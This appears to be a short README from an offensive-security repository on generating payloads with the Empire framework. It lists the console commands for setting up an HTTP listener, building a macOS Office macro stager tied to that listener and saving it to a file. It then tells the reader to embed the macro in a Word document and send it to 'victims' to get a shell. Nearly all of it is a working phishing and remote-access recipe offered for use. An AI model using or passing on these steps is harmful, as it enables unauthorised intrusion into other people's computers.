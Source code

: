 # Payload Generation
---
### Empire
It's very easy to generate shell stagers/payloads with Empire. You can create office macros, DDE'd word documents, applescript, and a heap more.
##### General process is as follows:
###### Create a listener:
- Enter the listeners menu: `listeners`
- Choose a listener to create: `uselistener http` - Press <TAB> to see more than just http
- View your listener info: `info`
_Note that you can add certs for communication over TLS_
- And change accordingly: `set Name acmeHTTP`
- Execute your listener: `execute`
###### Create a stager that uses the newly created listener:
- `main` to go to the main menu.
- Pick a payload: `usestager osx/macro` - press <TAB> to view the plethora of other payloads
- You can view the info of a stager by typing `info`
- Specify the stager to use the created listener: `set Listener acmeHTTP`
- Set the OutFile of your payload (unless stdout is fine with you): `set OutFile /tmp/acmeOSXMacro`

Chuck that in a Word document and send it to your macOS-enabled victims to get a shell.

### Msfvenom
**RTFM.**

#### File list
| File | Description |
|------|-------------|
|xplatform.txt | cross-platform macro outline. Host document must be created on Windows |
|Site Templates | ??? |
|Email Templates | ??? |
